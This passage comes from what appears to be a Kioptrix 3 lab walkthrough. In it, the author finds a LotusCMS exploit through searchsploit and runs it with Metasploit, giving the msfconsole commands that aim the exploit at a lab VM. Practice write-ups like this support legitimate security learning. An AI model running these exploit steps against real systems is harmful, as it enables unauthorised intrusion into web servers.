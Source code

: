 ## Exploitation
We use searchsploit to search for any available exploits for "LotusCMS" or we can use our browser to search. We found [18565.rb](https://www.exploit-db.com/exploits/18565) which is part of metasploit framework.

```bash
searchsploit LotusCMS
```

![searchsploit](/assets/img/posts/kioptrix3/4.png)

We run msfconsole and search for "LotusCMS" then we use that found exploit, set the required parameters and run.

```bash
msfconsole
search LotusCMS
use 0
options
set RHOSTS 192.168.56.118
set URI /index.php?system=Admin
run
```

![msfconsole](/assets/img/posts/kioptrix3/5.1.png)